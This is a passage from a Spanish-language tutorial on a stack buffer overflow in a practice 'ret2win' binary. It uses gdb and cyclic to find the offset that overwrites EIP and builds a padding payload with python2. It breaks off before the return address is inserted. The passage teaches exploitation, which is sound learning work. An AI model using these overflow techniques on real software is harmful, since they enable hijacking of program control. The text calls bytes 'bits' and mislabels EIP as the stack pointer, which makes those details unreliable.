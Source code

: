 Vemos que como era de esperar ha dado error, pero podemos ver más cosas:

```gdb
[...]
*EIP  0x61616168 ('haaa')
[...]
```

Nos interesan los 4 bits del puntero de instrucción (*instruction pointer*), `EIP`. Como vemos son `haaa`. Además, con `cyclic`, también podemos contar rápidamente la posición en qué empiezan esos bits:

```gdb
cyclic -l haaa
```
```cyclic
[...]
Found at offset 28
```


##### Prueba de concepto

Ya podríamos ir directamente a explotar la vulnerabilidad, sin embargo, hagamos una pequeña prueba. Ejecutamos la siguiente línea:

```python
python2 -c 'print 28*"A" + 4*"B" + 32*"C"'
```
```text
AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
```

Si ejecutamos y pasamos dicha cadena:

```gdb
run
```
```ret2win
Name:
AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
```
```ret2win
[...]
*EBP  0x41414141 ('AAAA')
*ESP  0xffffd100 ◂— 'CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC'
*EIP  0x42424242 ('BBBB')
[...]
```

Podemos ver que las *B* se están guardando en el puntero de pila, tal y como queríamos. A modo de spoiler para los siguientes temas, vemos que las *C* se guardan en `ESP`, esto podríamos aprovecharlo para introducir ahí un *shellcode* y que el valor que pusieramos en las *B* fuera esa dirección.


##### Insertando el *return adress*

Ya solo queda insertar el *return address* de `hacked` en la cadena que hemos generado. Para ello, debemos sacar la dirección. De la salida de `info functions` (la llamamos antes):
